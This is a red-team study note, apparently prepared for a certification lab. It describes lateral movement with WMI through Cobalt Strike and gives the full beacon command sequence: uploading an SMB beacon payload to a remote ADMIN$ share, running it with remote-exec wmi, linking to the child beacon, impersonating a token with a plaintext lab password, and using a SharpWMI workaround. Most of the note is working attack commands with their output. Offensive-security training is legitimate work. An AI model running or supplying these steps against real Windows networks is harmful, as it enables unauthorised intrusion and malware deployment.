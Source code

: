 
Management data and automation of infrastructure in Windows environments. 

## 🖊️ via Cobalt Strike

WMI is not part of the [[jump Command]], but it is of [[remote-exec Command]].
The `remote-exec` method uses WMI's "process call create" to execute any command we specify on the target. The most straight forward means of using this is to upload a payload to the target system and use WMI to execute it.

You can upload a file to a remote machine by `cd`'ing to the desired UNC path and then use the `upload` command.

```
beacon> cd \\web.dev.cyberbotic.io\ADMIN$
beacon> upload C:\Payloads\smb_x64.exe
beacon> remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe
Started process 3280 on web.dev.cyberbotic.io
```

In this example, we check access into the ADMIN$ folder and copy the payload. Then we remote execute with method wmi the file.

The process is now running on WEB so now we need to connect to it.

```
beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
[+] established link to child beacon: 10.10.122.30
```

### ⚠ Errors

WMI uses a BOF that utilizes a [[COM Objects]] named CoInitializeSecurity that may cause trouble if you are trying to impersonate a different token, for example:

```
beacon> make_token DEV\jking Qwerty123
[+] Impersonated DEV\bfarmer

beacon> remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[-] Could not connect to web.dev.cyberbotic.io: 5
```

We know `jking` is a local admin on WEB but because `CoInitializeSecurity` has already been called (probably in the context of `bfarmer`), WMI fails with access denied.  As a workaround, your WMI execution needs to come from a different process. This can be achieved with commands such as `spawn` and `spawnas` ([[Beacon Passing]]), or even `execute-assembly` with a tool such as `SharpWMI`.

```
beacon> execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Release\SharpWMI.exe action=exec computername=web.dev.cyberbotic.io command="C:\Windows\smb_x64.exe"

[*] Host                           : web.dev.cyberbotic.io
[*] Command                        : C:\Windows\smb_x64.exe
[*] Creation of process returned   : 0
[*] Process ID                     : 3436

```


### Properties
---
📆 created   {{14-02-2024}} 13:55
🏷️ tags: #redteam #crto #Windows 

---

